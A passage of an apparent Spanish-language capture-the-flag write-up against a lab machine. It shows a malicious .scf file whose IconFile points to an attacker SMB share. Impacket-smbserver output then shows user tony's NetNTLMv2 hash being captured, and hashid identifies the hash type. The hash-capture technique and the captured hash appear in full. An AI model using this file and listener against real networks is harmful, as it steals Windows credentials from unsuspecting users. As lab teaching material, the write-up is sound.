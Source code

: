 ```console
p3ntest1ng:~$ vi @gethash.scf
[shell]
Command=2
IconFile=\\10.10.16.25\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

###### ¿Por qué ponemos el @ delante del nombre del archivo?

Añadiendo este símbolo al comienzo del nombre, el archivo será colocado por encima del resto en el recurso compartido.

Una vez creado el archivo, compartimos un recurso en red con ayuda de  **`impacket-smbserver`** y subimos el archivo **`.scf`** a la web.

```console
p3ntest1ng:~$ sudo impacket-smbserver -debug -smb2support share $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.106,49525)
[*] AUTHENTICATE_MESSAGE (DRIVER\tony,DRIVER)
[*] User DRIVER\tony authenticated successfully
[*] tony::DRIVER:aaaaaaaaaaaaaaaa:9991db804510f48964a41ea7deb9f4e9:0101000000000000002605df4b2ad801e44969567acd523200000000010010004800700049006f006700490055006600030010004800700049006f0067004900550066000200100075006c00500070004f004a00730041000400100075006c00500070004f004a007300410007000800002605df4b2ad80106000400020000000800300030000000000000000000000000200000539a457fb58fa01a9211ce1bc906e7ae99c28bdb93afbca3f53a76a6ca6e05a50a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e0032003500000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:share)
[*] Closing down connection (10.10.11.106,49525)
[*] Remaining connections []
^C
```

Hemos obtenido el hash del usuario **`tony`**, lo guardamos a un archivo y verificamos que el formato del hash sea el correcto:

```console
p3ntest1ng:~$ hashid tony.hash
--File 'tony.hash'--
Analyzing 'tony::DRIVER:aaaaaaaaaaaaaaaa:9991db804510f48964a41ea7deb9f4e9:0101000000000000002605df4b2ad801e44969567acd523200000000010010004800700049006f006700490055006600030010004800700049006f0067004900550066000200100075006c00500070004f004a00730041000400100075006c00500070004f004a007300410007000800002605df4b2ad80106000400020000000800300030000000000000000000000000200000539a457fb58fa01a9211ce1bc906e7ae99c28bdb93afbca3f53a76a6ca6e05a50a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e0032003500000000000000000000000000'
[+] NetNTLMv2
```
